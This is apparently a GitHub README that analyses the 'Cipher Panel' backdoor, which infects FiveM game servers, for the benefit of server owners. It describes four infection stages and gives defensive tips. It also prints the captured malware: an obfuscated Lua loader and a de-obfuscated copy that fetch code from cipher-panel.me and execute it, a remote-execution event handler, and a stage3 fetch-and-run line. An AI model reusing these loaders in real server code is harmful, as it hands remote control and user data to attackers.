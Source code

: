 # MaliciousPanel
Cipher Panel Research (To clarify I have 0 connections to the group behind Cipher Panel, I'm merely researching this malicious panel for Cfx and server owners)

With respect to @ericstolly's research, I have dug up more information and together with his research this repo has been created. 
Mainly for information and educational purposes for server owners to figure out how what and where.

The several stages will be found in the files of this repo, there's also tools available (for now very limited) and a file which they infected. Don't worry it's only effective whenever you drop this file in the server files at the right position.

Explaination of the several stages:

*Stage 1*: This stage is the "exploit" stage, just depends on what you want to name it. 
In this stage they are gaining entry into your FiveM server and talking with their panel. 

*Stage 2*: This stage is the Payload phase, this is when they're re-writing your sessionmanager files and build a control base for further spreading and infection of other resources.

*Stage 3*: This is the spread phase, this is mainly a bridge between phase 2 and phase 4, this is where local functions are added throughout several scripts and where the fxmanifests are edited to use / run MySQL statements assumably for gaining access to the IP's and user data. But most these days use other mysql scripts so it's pretty obvious when there is a `server_script {'@mysql-async/lib/MySQL.lua'}` added. 

*Stage 4*: This is the control stage, this is where the panel sends out triggers to the several listening functions, how they do it? Read in phase 4 docs.
In the basis they're performing simple HTTP requests to their panel. Whenever the panel sends out a call to action, the response in the web body changes and the functions reading the web body will then distribute the events either client or server sided. Also txAdmin is victim of this, disabling the whitelist for example or bypassing a txAdmin ban.

**Tips for now**:
- Use a other mysql script
- Use a 3rd Party script for your bans and whitelist
- Disable their website in the hosts file (in case of Windows)
- Re-install the fresh sessionmanager
- Use notepad++ to search for any obfuscated functions with the information that will be available per phase documentation

**Traces Found**:
```
RegisterNetEvent('helpCode')

AddEventHandler('helpCode', function(id)
	local help = assert(load(id))
	help()
end)
```
Code from stage2 or stage3 will be send via a event and executed here. 

In rconlog we found some obfuscated code, which is the same as the stage2 code but a different page which still these days is unknown what it's contents are or how to gain the contents of this page. Only thing known is that it's in the server sided and downloads the body of the page. 
https://cipher-panel.me/_i/r.php?to=0

Code:
```
local BaoWmVjtyB = {
	_G['PerformHttpRequest'],
	_G['assert'],
	_G['load'],
	_G['tonumber']
}

local CKGzkhSwYw = {
	'68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
	'2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f', '72',
	'2e', '70', '68', '70', '3f', '74', '6f', '3d', '30'
}

function uGeRrdKRtK()
	JJcQCUzzCK = ''
	for id,it in pairs(CKGzkhSwYw) do
		JJcQCUzzCK = JJcQCUzzCK..it
	end
	return (JJcQCUzzCK:gsub('..', function (luwOyroAEjA)
		return string.char(BaoWmVjtyB[4](luwOyroAEjA, 16))
	end))
end

BaoWmVjtyB[BaoWmVjtyB[4]('1')](uGeRrdKRtK(), function (e, jKlDPYMVkD)
	local YlEkQSXGlZ = BaoWmVjtyB[BaoWmVjtyB[4]('2')](BaoWmVjtyB[BaoWmVjtyB[4]('3')](jKlDPYMVkD))
	if (jKlDPYMVkD == nil) then return end
	YlEkQSXGlZ()
end)
```
Doing our magical de-obfuscating and using the dehex function we can see that it downloads (just like the rest) the contents of the page r.php and executes it. The methods are the same as in the sessionmanager host_lock.lua file.
De-Obfuscated Code:
```
local VarArray = {
	_G['PerformHttpRequest'],
	_G['assert'],
	_G['load'],
	_G['tonumber']
}

local HEXArray = {
	'68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
	'2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f', '72',
	'2e', '70', '68', '70', '3f', '74', '6f', '3d', '30'
}

function Func1()
	String = ''
	for id,it in pairs(HEXArray) do
		String = String..it
	end
	return (String:gsub('..', function (var1)
		return string.char(VarArray[4](var1, 16))
	end))
end

PerformHttpRequest(Func1(), function (e, responseBody)
	local Payload = assert((load(responseBody)))
	if (responseBody == nil) then return end
	Payload()
end)
```
Simple CURL request to https://cipher-panel.me/_i/r.php?to=0 (Which is the HEX Array but in plain text), we get a different result.

```
PerformHttpRequest('https://cipher-panel.me/_i/v2_/stage3?to=0', function (e, d) pcall(function() assert(load(d))() end) end)
```
It sends us to this page but not the actual stage3.php, there seems to be a difference in that. 
